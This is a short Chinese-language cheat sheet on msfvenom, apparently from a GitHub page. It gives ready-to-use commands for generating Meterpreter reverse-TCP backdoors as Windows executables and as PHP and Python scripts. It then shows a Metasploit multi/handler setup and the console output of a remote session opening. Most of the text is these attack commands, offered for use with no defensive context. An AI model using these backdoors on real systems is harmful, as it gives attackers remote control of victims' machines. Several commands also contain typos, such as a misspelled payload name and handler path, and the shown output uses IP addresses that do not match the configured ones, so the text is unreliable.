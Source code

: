 ## Msfvenom简介

### msfvenom

#### msfvenom是msfpayload和msfencode的组合。将这两个工具集成在一个框架实例中。

### 进一步解释

#### msfvenom是用来生成后门的软件，在目标机上执行后门，在本地监听上线

## Msfvenom使用

### 生成后门

### **windows：**

####msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

### **php:**

####msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php

### **python:**

####msfvenom -p python/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

### 上线session

####msfvenom -p windows/peterpreter/reverse_tcp lhost=192.168.149.138 lport=8881 -f exe -o localmsf8881.exe

####msf5 > use exploit/multi/handler

####msf5 exploit(mulite/handler) > set payload windows/meterpreter/reverse_tcp

####msf5 exploit(mulite/handler) > setlhost 192.168.149.138

####msf5 exploit(mulite/handler) > set lport 8881

####msf5 exploit(mulite/handler) > run

####[*] Started reverse TCP handler on 192.168.24.146:5445

####[*] Sending stage (176195 bytes) to 192.168.24.142

####[*] Meterpreter seesion 4 opended (192.168.24.146:5445 -> 192.168.24.142:49643) at 02:56:04 -0400

####meterpreter > 

### 详解

